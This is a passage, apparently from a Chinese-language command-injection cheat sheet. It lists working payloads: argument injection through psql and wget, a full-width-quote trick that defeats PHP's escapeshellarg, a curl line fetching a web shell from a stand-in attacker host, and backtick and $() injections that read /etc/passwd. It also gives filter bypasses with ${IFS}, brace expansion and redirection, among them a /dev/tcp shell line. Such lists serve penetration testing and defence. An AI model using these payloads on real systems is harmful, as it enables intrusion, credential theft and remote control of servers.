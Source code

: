     ```ps1
    psql -o'|id>/tmp/foo'
    ```

参数注入可以使用[worstfit](https://blog.orange.tw/posts/2025-01-worstfit-unveiling-hidden-transformers-in-windows-ansi/)技术进行滥用。

在以下示例中，有效负载`＂ --use-askpass=calc ＂`使用**全角双引号**(U+FF02)而不是**常规双引号**(U+0022)

```php
$url = "https://example.tld/" . $_GET['path'] . ".txt";
system("wget.exe -q " . escapeshellarg($url));
```

有时，可能无法直接从注入执行命令，但您可能能够将流重定向到特定文件，从而部署Web shell。

* curl

    ```ps1
    # -o, --output <file>        写入文件而不是标准输出
    curl http://evil.attacker.com/ -o webshell.php
    ```

### 命令内部注入

* 使用反引号进行命令注入。

  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```

* 使用命令替换进行注入

  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```

## 过滤器绕过

### 无空格绕过

* `$IFS`是一个特殊的shell变量，称为内部字段分隔符。默认情况下，在许多shell中，它包含空白字符（空格、制表符、换行符）。当在命令中使用时，shell会将`$IFS`解释为空格。`$IFS`不能直接在`ls`、`wget`等命令中作为分隔符使用；请改用`${IFS}`。

  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```

* 在某些shell中，花括号扩展会生成任意字符串。执行时，shell会将大括号内的项目视为单独的命令或参数。

  ```powershell
  {cat,/etc/passwd}
  ```

* 输入重定向。`<`字符告诉shell读取指定文件的内容。

  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```
